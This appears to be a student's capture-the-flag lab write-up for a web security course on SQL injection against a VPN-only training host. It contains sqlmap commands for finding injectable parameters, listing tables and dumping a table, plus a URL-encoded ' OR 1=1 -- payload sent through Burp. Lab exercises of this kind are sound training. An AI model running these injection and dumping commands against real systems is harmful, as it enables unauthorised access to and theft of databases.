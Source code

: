 Tasks

======

0. SQLi - Basic Injection Discovery
The first step in exploiting SQL injection vulnerabilities is to identify which parameters are vulnerable.
Your goal is to identify which parameters in the application’s web pages are susceptible to SQL injection attacks. For that you should:

Access the machine cyber_websec_0x01 through the VPN.
Navigate to: http://web0x01.hbtn/a3/sql_injection/. (dont forget to edit your /etc/hosts)
Search for the vulnerable paramters.

R:

sqlmap:
sqlmap -u "http://web0x01.hbtn/api/a3/sql_injection/all_orders?status=paid" --tamper=space2comment --level=5 --risk=3 --dbs

BurpSuite:

in interception
GET /api/a3/sql_injection/all_orders?status=%27%20OR%201%3D1%20-- HTTP/1.1

======

1. SQLi - Extracting Database Information
Now that you’ve identified a vulnerable parameter, your next task is to find a flag ⛳️:

Extract information about the database itself:
Database Version.
Tables.

======

2. SQLi - Data Exfiltration from a Specific Table
With knowledge of the database structure, your goal is to extract sensitive data from a specific table.
The target for this exercise is a flag ⛳️ stored within one of the tables you previously identified.

R:
sqlmap:
sqlmap -u "http://web0x01.hbtn/api/a3/sql_injection/all_orders?status=paid" --dbms=sqlite --tables
sqlmap -u "http://web0x01.hbtn/api/a3/sql_injection/all_orders?status=paid" --dbms=sqlite --dump -T not_me

======
